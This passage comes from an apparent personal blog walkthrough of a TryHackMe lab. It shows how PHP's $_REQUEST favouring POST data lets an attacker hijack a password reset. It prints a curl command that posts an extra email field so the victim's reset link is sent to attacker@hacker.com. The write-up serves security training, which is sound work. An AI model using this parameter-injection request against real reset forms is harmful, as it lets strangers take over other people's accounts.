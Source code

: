 We use the `-H` flag to add an additional header to the request. In this instance, we are setting the

to Content-Type `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST`variable is an array that contains data received from the query string 
and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets 
delivered.

**Curl Request 2:**

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ curl 'http://10.10.189.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

![p8.5](/assets/posts/JrPenTester/p8-5.png)

By the way, if someone is deep into this blog, and actually reading this, give yourself some props.

Here is an adventure for the OG readers, find my discord link and utter the magic words `Grak-Tung` in the invite, the #flags channel should be a treat to watch lol.

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**
